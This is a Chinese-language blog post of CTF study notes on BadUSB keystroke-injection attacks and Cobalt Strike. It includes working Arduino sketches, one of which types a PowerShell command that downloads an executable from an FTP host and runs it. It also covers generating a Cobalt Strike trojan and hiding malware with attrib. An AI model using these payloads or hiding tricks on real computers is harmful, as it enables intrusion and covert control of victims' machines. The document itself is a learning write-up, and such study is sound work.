 ```yaml
---
title: CTF学习笔记（大学篇）02 —— BadUSB & CobeltStrike
date: 2022-04-16 08:22:03
tags: CTF
categories: CTF
---
```


### HID设备

人类接口设备，就是直接与人类进行交互的设备（鼠标、键盘之类的）

### HID攻击

插入一定的设备，设备有一定的标识符（例如Keyboard、Mouse），插入后就可以运行烧录在BadUSB上的指令来输入恶意代码，把木马植入计算机之中。（伪造用户击键行为等）

### USB HID攻击 VS 摆渡攻击

前者运用的是伪造的HID设备执行恶意代码，摆渡攻击是在U盘等设备放置木马程序，隐藏在存储介质之中。

### USB HID攻击特点

- 隐蔽性强
- 攻击范围广
- 权限高

攻击范围是只要能够支持USB HID接口协议的设备均可用。

### 相关编程语句

#### 默认内容

```C++
void setup() {

}

void loop() {

}
```

- `void setup()`函数内的代码只运行一次
- `void loop()`函数内的代码会一直循环运行

#### 运行cmd并打开记事本，输入相关内容

```c++
#include<Keyboard.h>
void setup() {
  // put your setup code here, to run once:
Keyboard.begin();
delay(1000);

Keyboard.press(KEY_LEFT_GUI);//win键
delay(500);
Keyboard.press('r');//r键
delay(500);
Keyboard.release(KEY_LEFT_GUI);//win键释放
Keyboard.release('r');//r键释放

Keyboard.press(KEY_CAPS_LOCK);//若目标机开启大小写，关掉即可
Keyboard.release(KEY_CAPS_LOCK);//若目标机没有开启，也不影响
delay(500);
Keyboard.println("cmd");
Keyboard.press(KEY_RETURN);
Keyboard.release(KEY_RETURN);//目标机开启中文或开启大小写键
delay(500);

//弹出记事本
Keyboard.println("notepad.exe");
delay(500);
delay(500);//可防止丢帧
Keyboard.println("you are hacked!!!");
Keyboard.println("you are hacked!!!");
Keyboard.println("you are hacked!!!");
Keyboard.press(KEY_CAPS_LOCK);//若目标机开启大小写，关掉即可
Keyboard.release(KEY_CAPS_LOCK);
Keyboard.end();//结束键盘通讯
}

void loop() {
  // put your main code here, to run repeatedly:
}
```

- `Keyboard.press`就表示按下按键，用`Keyboard.release`松开
- `KEY_LEFT_GUI`表示左边的Win按键
- `Keyboard.begin()`开启键盘通讯，`Keyboard.end()`来表示结束
- 因为插入设备的时候目标主机可能处于中文输入法，所以用`Keyboard.press(KEY_CAPS_LOCK)`打开大小写锁定，然后来输入命令，这样输入的就是英文字符而不受到中文输入法的限制了，输入完了以后记得用`Keyboard.release(KEY_CAPS_LOCK)`松开
- `Keyboard.begin()`下面的`delay(1000)`：一般来说，设备插入后计算机需要启动驱动，在这里加入延迟就是为了给计算机启动驱动的时间（甚至是安装驱动，diss一下win7以下的那堆），当然一般是3秒5秒，1秒还是太短了
- 按键的定义如下（键盘按键+编码）

```c++
///Alt和Ctrl和Shift
#define KEY_LEFT_CTRL   0x80
#define KEY_LEFT_SHIFT    0x81
#define KEY_LEFT_ALT    0x82
#define KEY_LEFT_GUI    0x83
#define KEY_RIGHT_CTRL    0x84
#define KEY_RIGHT_SHIFT   0x85
#define KEY_RIGHT_ALT   0x86
#define KEY_RIGHT_GUI   0x87
///方向键系列
#define KEY_UP_ARROW    0xDA
#define KEY_DOWN_ARROW    0xD9
#define KEY_LEFT_ARROW    0xD8
#define KEY_RIGHT_ARROW   0xD7
//特殊键位，其中RETURN就是回车
#define KEY_BACKSPACE   0xB2
#define KEY_TAB       0xB3
#define KEY_RETURN      0xB0
#define KEY_ESC       0xB1
///特殊键位，我比较常用的是DELETE
#define KEY_INSERT      0xD1
#define KEY_DELETE      0xD4
#define KEY_PAGE_UP     0xD3
#define KEY_PAGE_DOWN   0xD6
#define KEY_HOME      0xD2
#define KEY_END       0xD5
#define KEY_CAPS_LOCK   0xC1
///F区的这些那些
#define KEY_F1        0xC2
#define KEY_F2        0xC3
#define KEY_F3        0xC4
#define KEY_F4        0xC5
#define KEY_F5        0xC6
#define KEY_F6        0xC7
#define KEY_F7        0xC8
#define KEY_F8        0xC9
#define KEY_F9        0xCA
#define KEY_F10       0xCB
#define KEY_F11       0xCC
#define KEY_F12       0xCD
#define KEY_F13       0xF0
#define KEY_F14       0xF1
#define KEY_F15       0xF2
#define KEY_F16       0xF3
#define KEY_F17       0xF4
#define KEY_F18       0xF5
#define KEY_F19       0xF6
#define KEY_F20       0xF7
#define KEY_F21       0xF8
#define KEY_F22       0xF9
#define KEY_F23       0xFA
#define KEY_F24       0xFB
```

#### 利用FTP服务器存储病毒文件，利用BadUSB执行下载命令后运行

```C++
#include "Keyboard.h"

void setup() 
{
  Keyboard.begin();
  delay(2000);
  Keyboard.press(KEY_LEFT_GUI);//win键 
  delay(500); 
  Keyboard.press('r');//r键 
  delay(500); 
  Keyboard.release(KEY_LEFT_GUI); //win键 释放
  Keyboard.release('r'); //r键 释放
  delay(500);
  Keyboard.println("powershell $p=new-object system.net.webclient;$p.downloadfile('FTP://admin:123456@169.254.202.247/calc.exe','F:\\calc.exe');START F:\\calc.exe");
  Keyboard.end();//结束键盘通讯 
}

void loop() 
{
}

```

- FTP协议写法：`ftp://<username>:<password>@<address>:<port>`，可以通过这种方式将用户名和命令写入而无需弹出验证窗口

### CobaltStrike用法

首先需要打开Teamserver

![](https://gamernotitle.coding.net/p/assets/d/assets/git/raw/master/img/CTF-in-College-2/管理员__获取管理员权限 - 20220416-164025.png)

然后再打开CS，连接Teamserver

![](https://gamernotitle.coding.net/p/assets/d/assets/git/raw/master/img/CTF-in-College-2/Connect - 20220416-164031.png)

接着就会弹出主界面

![](https://gamernotitle.coding.net/p/assets/d/assets/git/raw/master/img/CTF-in-College-2/Cobalt_Strike - 20220416-164039.png)

然后我们生成一个木马程序，这个程序运行后就会在主界面显示肉鸡，可以进行远程操作等操作

![](https://gamernotitle.coding.net/p/assets/d/assets/git/raw/master/img/CTF-in-College-2/Windows_Executable - 20220416-164049.png)

![](https://gamernotitle.coding.net/p/assets/d/assets/git/raw/master/img/CTF-in-College-2/Choose_a_payload_to_stage - 20220416-164045.png)

### 隐藏木马病毒

一般来说，木马下载到计算机内后，如果不隐藏很快就会被发现（这不是当然的嘛，一个不明觉厉的exe在那里谁都会感觉奇怪吧）

所以在Windows下，我们可以将文件进行隐藏，使用`attrib`命令就可以做到这一点，例如

```powershell
attrib +s +h '.\Virus.exe'
```

隐藏后可以用命令行打开（直接输入`.\Virus.exe`就行了），但是在文件资源管理器里面看不到

在Linux下，可以在文件的最前面加一个点（`.`），会被Linux认为是隐藏文件，就在文件管理器中看不到啦
